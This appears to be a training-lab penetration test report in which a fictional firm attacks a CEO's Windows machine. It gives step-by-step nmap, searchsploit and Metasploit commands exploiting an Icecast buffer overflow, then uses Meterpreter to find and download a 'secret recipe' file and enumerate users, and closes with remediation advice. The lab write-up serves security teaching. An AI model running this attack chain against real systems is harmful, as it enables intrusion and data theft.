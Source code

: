 
# <p style="text-align: center;"> GoodSecurity Penetration Test Report</p>

<p style="text-align: center;">mark@GoodSecurity.com</p>

10th April, 2022



## 1.	High-Level Summary

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The goal of this test is to perform attacks similar to those of a hacker and attempt to infiltrate Hans’ computer to determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software, find a secret recipe file on Hans’ computer, and report the findings back to GoodCorp.
The internal penetration test found several alarming vulnerabilities on Hans’ computer: When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploiting one program with major vulnerabilities. The details of the attack are below.
## 2.	Findings

Machine IP: `192.168.0.20`
Hostname: `MSEDGEWIN10`
Vulnerability Exploited: `Icecast Header Overwrite`
Vulnerability Explanation: `This is "a buffer overflow in the header parsing of Icecast versions 2.0.1 and earlier, discovered by Luigi Auriemma. Sending 32 HTTP headers will cause a write one past the end of a pointer array. On win32 this happens to overwrite the saved instruction pointer, and on linux (depending on compiler, etc) this seems to generally overwrite nothing crucial (read not exploitable). This exploit uses ExitThread(), this will leave icecast thinking the thread is still in use, and the thread counter won't be decremented. This means for each time your payload exits, the counter will be left incremented, and eventually the threadpool limit will be maxed. So you can multihit, but only till you fill the threadpool."` Sorce: https://www.rapid7.com/db/modules/exploit/windows/http/icecast_header/
`As the CEO is running version 2.x of Icecast, his machine is vulnerable to this specific attack.`

Severity:
This vulnerability is a high risk vulnerability because an attacker can easily gain access to a shell prompt (as demonstrated below) and potentially utilise other exploits to escalate user privilege. 


Proof of Concept:

### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: nmap -sV 192.168.0.20
![nmap](Images/1.Service-and-version-scan.PNG)
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: searchsploit icecast
![searchsploit](Images/2.Searchsploit-Icecast.PNG)
3. Now that we know which exploits are available to us, let's start Metasploit:

   - Run the command that starts Metasploit:

     > Answer: msfconsole

      ![Metasploit](Images/3.Metasploit.PNG)
4. Search for the Icecast module and load it for use.

   - Run the command to search for the Icecast module:

     > Answer: search icecast
![icecast](Images/4.Metasploit-Icecast.PNG)
   - Run the command to use the Icecast module:

     > Answer:use 0
![use-0](IMages/4.Metasploit-Icecast-use-0.PNG)
5. Set the `RHOST` to the target machine.

   - Run the command that sets the `RHOST`:

     > Answer: set RHOST 192.168.0.20
![set-RHOST](Images/5.Set-RHOST.PNG)
6. Run the Icecast exploit.

   - Run the command that runs the Icecast exploit.

     > Answer: run
![run-exploit](Images/6.Run.PNG)
   - Run the command that performs a search for the `secretfile` textfile on the target.
     > Answer: search -f `*secretfile*`.txt
![search-secretfile](IMages/6.Search-result.PNG)
7. You should now have a Meterpreter session open.

    - Run the command to performs a search for the `recipe` textfile on the target:
      > Answer: search -f *recipe*.txt
    ![Search-recipe](Images/7.Search-recipe.PNG)
    - **Bonus**: Run the command that exfiltrates the `recipe` textfile:
      > Answer: download "c:\Users\IEUser\Documents\Drinks.recipe.txt"
![download-recipe](Images/7.Download-recipe.PNG)

8. You can also use Meterpreter's local exploit suggester to find possible exploits.
`run post/multi/recon/local_exploit_suggester`

    ![Exploit-suggester](Images/8.Exploit_Suggester.PNG)

  `The CEO's computer is also potentially vulnerable to an Ikeext exploit and ms16_075_reflection exploit, with both allowing the attacker to upgrade their user privilege.`

### Bonus
  
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: Keeping the existing meterpreter session running (using background), run: search enum_user.
![Search enum_user](Images/Bonus-search-script.PNG)
![Search enum_user-II](Images/Bonus-search-script2.PNG)
run: use 991
![run 991](Images/Bonus-logged-on-users1.PNG)
![run 991-ii](Images/Bonus-logged-on-users2.PNG)


B. Open a Meterpreter shell and gather system information for the target.

  > Answer: Computer name:    MSEDGEWIN10
              OS:               Windows 10 (10.0 Build 17763)
            Architecture:     x64
            System Language:  en_US
            Domain:           WORKGROUP
            Logged On Users:  1
            Metrepreter:      x86/windows

C. Run the command that displays the target's computer system information:

   > Answer: `sysinfo`
   ![Sys info](Images/Bonus-sysinfo.PNG)


3.	Recommendations

What recommendations would you give to GoodCorp?

 For urgent action:
  1. Uninstall Icecast from the CEO's computer. Whilst upgrading to the latest version should mitigate the vulnerability, the application is not an approved application for use on company computers, thus it should be removed.
  2. Run a session with the senior executive management team to ensure that they all understand the importance of abiding by the company's IT policy framework and the potential for exposure by installing applications not approved by the IT department.
  3. Patch the CEO's computer to remove the Ikeext and ms16_075_reflection vulnerabilities.

Strongly recommended actions:
  1. Run a training program for all employees on IT security issues and how to ensure that they reduce the chances of being successfully hacked.
  2. Implement a policy to prevent all employees from having the ability to install applications on their work computers.
  3. Expand the scope of the pentesting engagement to include all senior management.

